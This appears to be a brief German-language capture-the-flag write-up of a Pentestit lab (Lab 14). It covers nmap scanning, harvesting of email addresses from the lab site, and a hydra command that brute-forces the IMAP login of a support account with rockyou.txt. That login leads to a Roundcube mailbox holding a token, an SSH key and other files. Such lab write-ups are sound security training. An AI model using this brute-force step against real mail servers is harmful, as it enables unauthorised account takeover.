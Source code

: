 # Lab 14

https://lab.pentestit.ru/pentestlabs/14
Tools: Debian 10, nmap,wpscan,dirb,Metasploit,hydra, rockyou.txt

Gateways: 
  * 192.168.101.14
  * 192.168.101.15
  
## Mail - Token 

Host: 192.168.101.14

- in /etc/hosts eintragen: "192.168.101.14 site.test.lab"
- Mailadressen auf http://site.test.lab:
  * sidorov@test.lab
  * ivanov@test.lab
  * petrov@test.lab (IT)
  * support@test.lab
- Portscan mit nmap: 
  * 80/tcp   open  http    nginx 1.18.0
  * 143/tcp  open  imap    Dovecot imapd
  * 8080/tcp open  http    nginx (Roundcube!)
- hydra site.test.lab imap -l support@test.lab -P rockyou.txt
  => pwd="PASSWORD"
  => Login in Roundcube (http://site.test.lab:8080)
  => Mailbox: Mail-Token, SSH-Key (ivanov), client.jar (dev), vpn.zip (gagarin)
  

